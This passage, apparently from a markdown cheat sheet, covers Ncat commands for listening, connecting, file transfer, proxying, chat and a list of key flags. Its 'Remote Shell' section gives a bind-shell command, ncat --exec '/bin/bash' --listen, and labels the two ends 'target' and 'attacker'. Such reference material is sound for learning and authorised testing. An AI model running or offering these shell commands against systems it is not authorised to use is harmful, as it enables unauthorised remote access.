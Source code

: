 2. **Listen for Connections**  
   ```bash
   ncat --listen --port 1234
   ```
   - Similar to Netcat’s `-l` mode.

3. **Connect to a Host**  
   ```bash
   ncat <IP> 1234
   ```

4. **File Transfer**  
   - On the receiving machine:  
     ```bash
     ncat --listen --port 1234 > file.txt
     ```
   - On the sending machine:  
     ```bash
     ncat <IP> 1234 < file.txt
     ```

5. **Proxy Traffic**  
   - Proxy traffic from a local port to a remote destination:  
     ```bash
     ncat --proxy-type socks4 --proxy <proxy-IP>:<proxy-port> <destination-IP> <destination-port>
     ```

6. **Chat Session**  
   - Listener:  
     ```bash
     ncat --listen --port 1234
     ```
   - Client:  
     ```bash
     ncat <IP> 1234
     ```

7. **Remote Shell**  
   - On the server (target):  
     ```bash
     ncat --exec "/bin/bash" --listen --port 1234
     ```
   - On the client (attacker):  
     ```bash
     ncat <IP> 1234
     ```

---

### Key Flags in Ncat
- `--ssl`: Enable encrypted TLS/SSL communication.
- `--listen`: Start in listening mode.
- `--exec <command>`: Execute a command after a connection is established.
- `--proxy-type`: Specify the proxy type (e.g., SOCKS or HTTP).
- `--udp`: Use UDP instead of TCP.
- `--keep-open`: Keep the connection open for multiple clients.

---